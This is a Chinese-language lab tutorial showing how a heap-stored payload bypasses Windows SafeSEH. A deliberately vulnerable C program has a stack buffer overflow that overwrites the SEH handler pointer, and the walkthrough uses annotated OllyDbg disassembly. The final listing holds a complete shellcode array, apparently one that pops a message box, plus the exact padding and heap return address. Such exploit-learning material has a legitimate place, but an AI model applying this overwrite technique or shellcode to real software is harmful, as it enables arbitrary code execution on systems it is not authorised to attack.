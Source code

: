 # Using heap overrun bypass SafeSEH

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <stdafx.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	zero = 1/zero;
}

int main()
{
	char* buf = (char *)malloc(500);
	__asm int 3
	strcpy(buf, shellcode);
	test(shellcode);	
	return 0;
}
```

代码解释：先申请500字节的空间，然后中断，这是为了方便找到堆的起始位置，然后将shellcode存放到堆中，接下来执行test函数导致缓冲区溢出，紧接着一个除0异常触发异常处理，因为异常处理函数已经被覆盖成堆里shellcode的起始地址，所以直接绕过SafeSEH

编译器是VS2005,，生成Release版本，记得禁用优化，运行起来载入OD

代码窗可以看到申请堆空间的两条指令，右上角的EAX处存的是申请的堆空间的起始地址，左下角数据区跟随一下就可以看到了，虽然现在还有值，但是没关系的

![](Image/1.png)

接下来几行代码就是将shellcode存放到堆空间了，来读读汇编吧
```
00401796   .  68 18304000   push    offset shellcode                 ; /src = ""90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,""
0040179B   .  8B45 FC       mov     eax, dword ptr [ebp-4]           ; |
0040179E   .  50            push    eax                              ; |dest
0040179F   .  E8 6CF8FFFF   call    strcpy                           ; \strcpy
004017A4   .  83C4 08       add     esp, 8				
```

有事没事读读汇编也是不错的

然后我们走完这段，到这两句，也就是执行test函数
``` 
004017A7   .  68 18304000   push    offset shellcode
004017AC   .  E8 7FFFFFFF   call    test
```

跟过去

![](Image/2.png)

同样我们来读读汇编
``` 
00401730 &gt; $  55            push    ebp
00401731   .  8BEC          mov     ebp, esp
00401733   .  81EC D0000000 sub     esp, 0D0;抬高栈顶
00401739   .  A1 00304000   mov     eax, dword ptr [__security_cookie] ;取出.data段Cookie
0040173E   .  33C5          xor     eax, ebp;生成Security Cookie
00401740   .  8945 F8       mov     dword ptr [ebp-8], eax;将Security Cookie存入栈中
00401743   .  8B45 08       mov     eax, dword ptr [ebp+8];这是调用test时压栈的shellcode指针
00401746   .  50            push    eax                                  ; /src
00401747   .  8D8D 30FFFFFF lea     ecx, dword ptr [ebp-D0]              ; |
0040174D   .  51            push    ecx                                  ; |dest
0040174E   .  E8 BDF8FFFF   call    strcpy                               ; \strcpy
00401753   .  83C4 08       add     esp, 8
00401756   .  C745 FC 00000&gt;mov     dword ptr [ebp-4], 0;存个0，为下面除0做准备
0040175D   .  B8 01000000   mov     eax, 1
00401762   .  99            cdq
00401763   .  F77D FC       idiv    dword ptr [ebp-4];除0操作
```

在单步走下去的时候可以看到缓冲区起始位置，直接观察栈布局或者看参数都可以看出来的，栈中标记出来的就是缓冲区起始地址，同样代码窗口同样可以看到dest目标地址

![](Image/3.png)

执行完strcpy

![](Image/4.png)

既然各种起始地址找的差不多了，可以来看看S.E.H链了，可以看到只有两个，最上面的是`0x0012FFB0`，这个是nextSEH的指针，真正执行的是`0x0012FFB4`处的异常处理函数指针

![](Image/5.png)

看到这里接下来的事就好办了，我们的shellcode弄长点，`\x90`填充到`0x0012FFB0`位置，后面跟上申请的堆空间起始地址，也就是shellcode的起始地址

长度计算可以用各种工具包里自带的，吾爱虚拟机和shark恒的虚拟机都很好用，推荐一下，里面工具包都很全，我现在用的是shark恒的虚拟机，用的吾爱的工具包

修改后的代码如下
``` 
#include "stdlib.h"
#include "string.h"

char shellcode[] = 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA0\x29\x3B\x00"//address of shellcode in heap
;

void test(char* input)
{
	char str[200];
	__asm int 3
	strcpy(str,input);	
    int zero = 0;
	zero = 1/zero;
}

int main()
{
	char* buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);	
	return 0;
}
```

同样中断后OD附加调试，走完strcpy可以看到S.E.H已经被覆盖掉了，不用管nextSEH

![](Image/6.png)

那么接下来的情况就比较清楚了，我们构造的除0异常会触发异常，程序调用异常处理，因为异常处理函数的指针指向的是堆空间，而SafeSEH对指向堆空间的异常处理函数指针是直接校验通过的，所以直接就执行shellcode了

接下来我们去掉断点看看效果

![](Image/7.png)